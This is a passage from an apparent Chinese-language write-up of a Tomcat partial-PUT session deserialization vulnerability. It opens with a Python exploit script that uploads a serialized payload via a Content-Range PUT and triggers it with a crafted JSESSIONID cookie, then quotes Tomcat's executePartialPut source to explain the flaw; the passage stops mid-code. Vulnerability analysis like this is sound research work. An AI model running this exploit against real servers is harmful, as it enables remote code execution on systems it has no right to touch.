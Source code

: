 得到ser文件之后再跑下面脚本

```
import requests
data=open("ser","rb").read()
headers={"Content-Range":"bytes 0-10000/67589"}
url="http://127.0.0.1:8081/evil/session"
requests.put(url,headers=headers,data=data)
requests.get(url,headers={"Cookie":"JSESSIONID=.evil"})
```

![image-20250312145744884](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250312145744884.png)

## 原理分析

### 其一

漏洞点在`DefaultServlet`下的doPut方法中调用` executePartialPut`方法

![image-20250312150329188](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250312150329188.png)

在` executePartialPut`方法中,根据传入的path，request创建临时文件，保存地址为当前ServletContext下的临时文件夹的根目录下面，且将path中的`/`转化为了`.`

```
protected File executePartialPut(HttpServletRequest req, Range range, String path) throws IOException {

    // Append data specified in ranges to existing content for this
    // resource - create a temp. file on the local filesystem to
    // perform this operation
    File tempDir = (File) getServletContext().getAttribute(ServletContext.TEMPDIR);
    // Convert all '/' characters to '.' in resourcePath
    String convertedResourcePath = path.replace('/', '.');
    File contentFile = new File(tempDir, convertedResourcePath);
    if (contentFile.createNewFile()) {
        // Clean up contentFile when Tomcat is terminated
        contentFile.deleteOnExit();
    }

    try (RandomAccessFile randAccessContentFile = new RandomAccessFile(contentFile, "rw")) {

        WebResource oldResource = resources.getResource(path);

        // Copy data in oldRevisionContent to contentFile
        if (oldResource.isFile()) {
            try (BufferedInputStream bufOldRevStream =
                    new BufferedInputStream(oldResource.getInputStream(), BUFFER_SIZE)) {

                int numBytesRead;
                byte[] copyBuffer = new byte[BUFFER_SIZE];
                while ((numBytesRead = bufOldRevStream.read(copyBuffer)) != -1) {
                    randAccessContentFile.write(copyBuffer, 0, numBytesRead);
                }

            }
        }

        randAccessContentFile.setLength(range.length);

        // Append data in request input stream to contentFile
        randAccessContentFile.seek(range.start);
        int numBytesRead;
        byte[] transferBuffer = new byte[BUFFER_SIZE];
```